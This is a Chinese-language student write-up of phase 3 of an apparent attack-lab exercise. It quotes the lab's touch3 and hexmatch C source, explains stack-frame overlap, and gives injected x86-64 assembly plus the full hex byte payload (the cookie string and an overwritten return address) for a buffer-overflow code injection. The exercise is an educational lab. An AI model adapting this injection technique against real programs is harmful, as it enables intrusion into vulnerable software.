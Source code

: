 ## phase 3
已知，题目要求：跳转到touch3，并完成cookie验证
```markdown
 /* Compare string to hex represention of unsigned value */
 int hexmatch(unsigned val, char *sval)
 {
 char cbuf[110];
 /* Make position of check string unpredictable */
 char *s = cbuf + random() % 100;
 sprintf(s, "%.8x", val);
 return strncmp(sval, s, 9) == 0;
 }

void touch3(char *sval)
 {
 vlevel = 3; /* Part of validation protocol */
 if (hexmatch(cookie, sval)) {
 printf("Touch3!: You called touch3(\"%s\")\n", sval);
 validate(3);
 } else {
 printf("Misfire: You called touch3(\"%s\")\n", sval);
 fail(3);
 }
 exit(0);
 }
```

如出一辙，我们需要通过test中的getbuf跳转到touch3。与level2不同，touch3传入的是一个字符串*sval，也是我们需要传入的变量，c中函数接受字符串的首地址。Touch3中的cookie应该为一个全局变量，我们不需要管。我们发现touch3调用了hexmatch函数，且返回值为true（非0）时才能完成验证，我们接下来观察hexmatch在干什么。将我们传入的sval与s相比，若前九个相同则验证成功。其中s的值为全局变量cookie。因此我们需要做的是将存储我们cookie（0x59b997fa对应的16进制的ascii码，不需要前导0x）的首地址传入。而因为random函数的存在，s的首地址是不固定的。也就是说，如果我们将待传入的cookie放在hexmatch的栈帧中，则很有可能会被覆盖。如果放在getbuf’的栈帧中呢？当我们完成getbuf函数后，空间会被释放，rsp上移，在调用hexmatch时rsp又会下移开辟空间，因此getbuf和hexmatch的栈帧会有重叠，也就是说当getbuf函数结束时，getbuf栈帧中的数据就有可能被更改。因此，我们需要将数据存储在getbuf栈帧开始处之前。
类似于level2的操作，调用getbuf时栈顶（rsp）为0x5561dca0。我们知道，call（调用函数时），会将调用者call的下一条地址push（入栈），所以，此时的rsp为getbuf函数结束时的返回地址，我们需要在+8（0x5561dca8）处存储我们的cookie。通过查表，易得我们cookie对应的16进制为：35 39 62 39 39 37 66 61。结合level 2，该数据应该放在存储输入首地址的+48处。易知touch3的地址为0x4018fa。在进入touch3前我们要完成movq $0x5561dca8,%rdi的操作。而其他流程与level2类似，不赘述。因此，整个流程为：输入56个字符，输入字符的最后一行（若8字节一行）对应的地址存储我们的cookie，倒数第二行为重定向地址，重定向到输入字符的开始处执行我们注入的代码。在进入touch3前我们需要进行
```markdown
movq $0x5561dca8,%rdi
pushq $0x4018fa
ret
```
因此注入字符的16进制为
```markdown
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00 
```
其中最后一行的00表示存储数据字符串的结尾“/0”
后续操作与前面部分雷同，不赘述。
